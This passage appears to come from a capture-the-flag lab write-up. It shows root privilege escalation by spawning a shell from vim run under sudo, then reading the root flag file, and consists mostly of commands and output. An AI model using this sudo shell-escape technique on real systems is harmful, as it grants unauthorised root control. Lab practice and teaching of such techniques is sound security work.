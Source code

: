     $ sudo vim -c ':!/bin/sh'
    
    # whoami
    root
    # 

### What's the root flag?
Navigating to the root directory, we can read the root flag.

    # cd /root
    # ls -al
    total 28
    drwx------  4 root root 4096 aug 17  2019 .
    drwxr-xr-x 23 root root 4096 aug 19  2019 ..
    -rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
    drwx------  2 root root 4096 aug 17  2019 .cache
    drwxr-xr-x  2 root root 4096 aug 17  2019 .nano
    -rw-r--r--  1 root root  148 aug 17  2015 .profile
    -rw-r--r--  1 root root   24 aug 17  2019 root.txt
    # cat root.txt
    W[Redacted]e it!

------------